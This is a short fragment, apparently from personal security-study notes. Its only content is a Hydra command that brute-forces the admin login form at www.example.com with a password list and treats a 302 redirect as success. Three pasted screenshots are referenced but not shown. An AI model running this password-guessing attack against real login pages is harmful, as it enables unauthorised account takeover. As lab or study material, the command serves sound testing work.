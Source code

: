 ___

```bash
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```


![[Pasted image 20241004131226.png]]

![[Pasted image 20241004131402.png]]

![[Pasted image 20241004131415.png]]





